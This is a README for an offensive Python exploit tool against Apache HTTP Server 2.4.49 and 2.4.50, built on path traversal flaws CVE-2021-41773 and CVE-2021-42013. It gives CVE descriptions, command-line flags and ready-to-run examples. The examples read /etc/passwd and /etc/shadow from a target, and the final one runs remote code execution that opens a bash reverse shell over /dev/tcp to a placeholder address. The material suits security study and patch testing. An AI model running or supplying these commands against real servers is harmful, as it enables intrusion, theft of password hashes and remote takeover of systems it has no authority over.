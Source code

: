# Apache Path Traversal Exploit

This exploit is based on a few CVE vulnerabilities affecting Apache 2.4.49. We use URL-encoded characters to access certain files or otherwise restricted resources on the server. Possible RCE on certain systems as well.

## Affected CVEs
1. CVE-2021-41773

    A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions. The fix in Apache HTTP Server 2.4.50 was found to be incomplete, see CVE-2021-42013.

2. CVE-2021-42013

    It was found that the fix for CVE-2021-41773 in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.

## Usage
```bash
$ python3 exploit.py -h

--cgi       Use if Apache server has CGI enabled
--port      Port the Apache server is listening on (Default: 8080)
--path      Path to the file on the Apache server to output (Default: /etc/passwd)
--ip        The website or IP address where the Apache server is hosted (Default: localhost)
-v          Increases verbosity
-s          Special exploit for Apache v2.4.50
--rce       Offers the ability to run Remote Code Execution on CGI-enabled servers
--cmd       Used in conjunction with --rce to run Remote Code Execution on the server (Default: whoami)
```

### Full example against a cgi-enabled server running on localhost:8000
```bash
$ python3 exploit.py --cgi --port 8000 --path "/etc/shadow"
```

### Bonus
Little bonus exploit for Apache v2.4.50 by using `-s` like this (cgi or non-cgi both work):
```bash
$ python3 exploit.py --port 8000 --path "/etc/passwd" -s
```

### More Examples
Made a third section just to show off my personal favorite command for the script against a cgi-enabled server running v2.4.50:
```bash
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi --vs --path "/etc/shadow"
```

NOTE: If running `--rce`, the `-s` option is not required when trying to exploit v2.4.50!

Here is an RCE example (This should work on v2.4.49 or v2.4.50):
```bash
# In this scenario, we can run any command that'll run on Linux - This does actually open a reverse shell, so you'll need netcat or something similar
$ python3 exploit.py --ip <IP_ADDRESS> --port <PORT> --cgi -v --rce --cmd "bash -i >& /dev/tcp/<IP_ADRESS>/<PORT> 0>&1"
```